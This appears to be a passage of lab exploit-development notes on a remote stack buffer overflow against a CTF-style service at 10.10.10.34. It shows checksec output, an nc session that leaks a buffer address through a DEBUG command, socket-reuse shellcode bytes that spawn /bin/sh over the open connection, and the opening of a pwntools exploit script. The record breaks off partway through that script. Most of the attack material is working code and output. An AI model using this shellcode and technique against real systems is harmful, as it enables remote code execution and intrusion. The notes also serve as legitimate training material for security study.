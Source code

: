 ### Stack-Based (Remotely)

Same as `Ret2Libc` we need to control the EIP. When we successfuly control the EIP we need to check which security is enabled:

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : ENABLED
RELRO     : Partial
```

We can see that PIE is enabled which stands for Position Independent Executable. This means that the memory locations will change every time you run the application. This makes exploiting buffer overflows harder. However, in that example of BoF there was a DEBUG parameter that gave us the location of the buffer overflow-able field.

```
❯ nc 10.10.10.34 7411
OK Ready. Send USER command.
DEBUG
OK DEBUG mode on.
USER admin
OK Send PASS command.
PASS admin
Debug: userpass buffer @ 0xffffd610
Incorrect username and/or password.
ERR Authentication failed.
```

#### Socket Re-Use

Instead of spawning a reverse shell that maybe give problems to us with bad characters we can re-use the open socket.

The following shellcode works to re-use the socket.

```
buf=b""
buf+=b"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6"
buf+=b"\x31\xc9\x56\x5b\x6a\x3f\x58\xcd\x80\x41\x80"
buf+=b"\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6"
buf+=b"\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
buf+=b"\x89\xe3\x31\xc9\xcd\x80";
```

* [https://www.exploit-db.com/exploits/34060](https://www.exploit-db.com/exploits/34060)

#### Fitting the exploit

Finally we just need to fit all parts together and make the exploit:

```
from pwn import *
# Initial Configuration

context(os="linux", arch="i386")
host = "10.10.10.34"
port = "7411"

# Junk Bytes

junk = b'A' * 28

# UserPass Leaked memory
addr = p32(0xffffd610+32) 

```